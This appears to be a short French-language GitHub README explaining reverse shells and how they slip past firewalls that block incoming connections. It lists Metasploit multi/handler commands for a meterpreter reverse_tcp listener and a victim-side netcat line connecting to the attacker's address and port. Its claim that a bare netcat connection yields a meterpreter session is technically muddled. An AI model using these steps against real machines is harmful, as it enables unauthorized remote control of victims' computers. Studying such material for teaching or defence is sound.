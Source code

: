 # Reverse shell (shell inversé)

Payload : partie du programme qui s'execute côté client (charge utile)

## Description 
Dans une connection normal, le client (nous) envoie une requête au serveur qui lui
nous renvoie une réponse. Le problème étant que le pare-feu bloque les connections entrantes.
Pour se faire, nous allons faire en sorte d'etre le serveur et la victime le client.
Notre propre machine va ecouter les connections sur un port et la victime va initié la 
connection avec nous. Vu que la victime demandera la connection avec notre serveur,
le pare feu ne bloquera pas une connection sortante (de l'interieur vers l'exterieur)
Une fois les deux devices connectés nous pouvons envoyer des commandes à distances 
et recupérer le resultat via les connections sortantes du payload.

## Server side (attacker machine) 
* <code>msfconsole </code>
* <code> use multi/handler </code>
* <code> set payload windows/meterpreter/reverse_tcp </code>
* <code> set lhost 192.168.1.XX </code> 
* <code> set lport 4444 </code>
* <code> run </code>

Ici nous avons créer un server en ecoute qui attends une connection entrante.
Il nous reste seulement a ce que le payload soit injecté dans la machine de la victime

## Client side  (Victim machine)

<code> nc 192.168.1.XX 4444 </code>

Ici on effectue une demande de connection vers notre server. 
On a créer une session meterpreter.
